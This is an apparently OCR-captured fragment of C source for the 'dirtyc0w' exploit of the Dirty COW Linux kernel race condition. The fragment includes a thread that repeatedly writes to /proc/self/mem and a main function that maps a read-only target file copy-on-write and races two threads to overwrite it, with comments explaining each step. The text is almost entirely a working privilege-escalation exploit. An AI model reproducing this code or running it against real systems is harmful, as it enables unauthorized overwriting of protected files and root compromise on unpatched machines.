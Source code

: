 ```c
  str=(char*)arg;
/*
You have to write to /proc/self/mem :: https://bugzilla.redhat.com/show_bug.cgi?id=1384344#c16
>  The in the wild exploit we are aware of doesn't work on Red Hat
>  Enterprise Linux 5 and 6 out of the box because on one side of
>  the race it writes to /proc/self/mem, but /proc/self/mem is not
>  writable on Red Hat Enterprise Linux 5 and 6.
*/
  int f=open("/proc/self/mem",O_RDWR);
  int i,c=0;
  for(i=0;i<100000000;i++) {
/*
You have to reset the file pointer to the memory position.
*/
    lseek(f,(uintptr_t) map,SEEK_SET);
    c+=write(f,str,strlen(str));
  }
  printf("procselfmem %d\n\n", c);
}
 
 
int main(int argc,char *argv[])
{
/*
You have to pass two arguments. File and Contents.
*/
  if (argc<3) {
  (void)fprintf(stderr, "%s\n",
      "usage: dirtyc0w target_file new_content");
  return 1; }
  pthread_t pth1,pth2;
/*
You have to open the file in read only mode.
*/
  f=open(argv[1],O_RDONLY);
  fstat(f,&st);
  name=argv[1];
/*
You have to use MAP_PRIVATE for copy-on-write mapping.
> Create a private copy-on-write mapping.  Updates to the
> mapping are not visible to other processes mapping the same
> file, and are not carried through to the underlying file.  It
> is unspecified whether changes made to the file after the
> mmap() call are visible in the mapped region.
*/
/*
You have to open with PROT_READ.
*/
  map=mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);
  printf("mmap %zx\n\n",(uintptr_t) map);
/*
You have to do it on two threads.
*/
  pthread_create(&pth1,NULL,madviseThread,argv[1]);
  pthread_create(&pth2,NULL,procselfmemThread,argv[2]);
/*
You have to wait for the threads to finish.
*/
  pthread_join(pth1,NULL);
  pthread_join(pth2,NULL);
  return 0;
}
```